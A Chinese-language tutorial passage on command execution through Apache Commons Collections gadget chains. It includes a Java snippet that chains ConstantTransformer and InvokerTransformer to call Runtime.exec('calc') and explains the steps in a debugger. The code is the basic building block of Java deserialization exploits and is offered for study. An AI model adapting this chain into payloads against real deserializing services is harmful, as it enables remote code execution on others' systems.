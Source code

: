 ### CC链系列命令执行

#### Transformer细究

用代码来看

```java
package serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Main {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformer = new ChainedTransformer(transformers);
        transformer.transform(1);
    }
}
```

这里调试代码看执行过程。开启debug

先看下调用了Transformer的几个函数


`transformers`是个实例化的数组对象，里面有两个参数，一个是`ConstantTransformer`

![img](img/3.png)

传入`constantToReturn`，返回同样的值，赋值给`this.iConstant`，而这里传入的值是`Runtime.getRuntime()`想要通过这个实现命令执行。

然后看第二个参数：`InvokerTransformer`

![img](img/4.png)
